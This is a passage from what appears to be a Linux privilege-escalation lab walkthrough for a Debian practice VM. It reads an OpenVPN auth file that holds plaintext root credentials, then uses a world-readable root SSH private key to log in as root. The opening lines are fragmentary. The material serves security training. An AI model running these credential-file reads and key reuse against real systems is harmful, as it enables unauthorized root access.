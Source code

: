 su root
```


Config Files

```ls /home/user```
```cat <myvpn file>```



```
user@debian:~$ ls /home/user
myvpn.ovpn  tools
user@debian:~$ cat /home/user/myvpn.ovpn
client
dev tun
proto udp
remote 10.10.10.10 1194
resolv-retry infinite
nobind
persist-key
persist-tun
ca ca.crt
tls-client
remote-cert-tls server
auth-user-pass /etc/openvpn/auth.txt
comp-lzo
verb 1
reneg-sec 0

user@debian:~$ cat /etc/openvpn/auth.txt
root
password123
user@debian:~$ 
```




SSH keys


```ls -la /```

Note that there appears to be a hidden directory called .ssh. View the contents of the directory:

```ls -l /.ssh```

Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:

```chmod 600 root_key```

Use the key to login to the Debian VM as the root account (change the IP accordingly):

```ssh -i root_key root@10.10.10.10```





```